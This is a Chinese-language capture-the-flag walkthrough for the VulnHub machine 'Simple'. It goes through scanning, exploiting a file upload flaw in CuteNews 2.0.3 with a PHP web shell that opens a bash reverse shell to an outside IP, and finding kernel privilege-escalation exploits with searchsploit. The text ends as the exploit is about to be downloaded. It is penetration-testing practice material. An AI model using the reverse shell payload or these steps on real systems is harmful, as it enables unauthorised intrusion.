

**靶机地址**：[SecTalks: BNE0x03 - Simple ~ VulnHub](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
**Download (Mirror)**: [https://download.vulnhub.com/sectalks/Simple.ova](https://download.vulnhub.com/sectalks/Simple.ova)

### 信息收集
先做主机发现

```BASH
arp-scan -l
```


```BASH
nmap --min-rate 10000 -p- 172.16.31.10
```

发现只开放了一个80端口


### 漏洞利用

访问web


可以看到`CuteNews v.2.0.3`,这个应该是CuteNews框架的版本号,像这种是很容易爆洞的,因为版本很低，可以搜索相关历史漏洞


下载`37474.txt`到当前路径

```bash
 searchsploit  cutenews 2.0.3 -m 37474.txt
```


告诉了我们利用方法


先注册一个用户，然后登录


来到`http://172.16.31.10/index.php?mod=main&opt=personal`这个路径


```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.104/5678 0>&1'"); ?>
```


我这里先上传一个正常的图片，然后修改数据包


http://172.16.31.10/uploads/，可以看到上传成功了




物理机开启监听


成功反弹


### 提权

进入靶机，发现是个低权限的用户，那么我们就要进行提权了，这里我尝试了一般的提权方法，比如SUID提权和sudo -l 命令以及查看进程都没有发现可以提权的点。


拿到shell是因为这个框架漏洞版本太低，那么我们进行提取操作的时候，是不是也可以利用这点呢，我直接uname -a 查看内核版本信息，好家伙还真是，这个内核版本确实低，可以被我们所利用


searchspoit搜索对应版本的提取漏洞

```bash
 searchsploit kernel 3.16.0-generic | grep "Privilege Escalation"
```


内核提权就是这样的，有点靠运气的成分了，就得看我们检索的关键字是什么了，然后还得挨个去尝试！
尝试红队笔记大佬的方法
```bash
searchsploit Ubuntu 14.04 |grep "Privilege Escalation"
```


下载exp
```bash
searchsploit -m 37088.c
```

然后开启web服务

```php
php -S 0:6868
```


靶机下载EXP


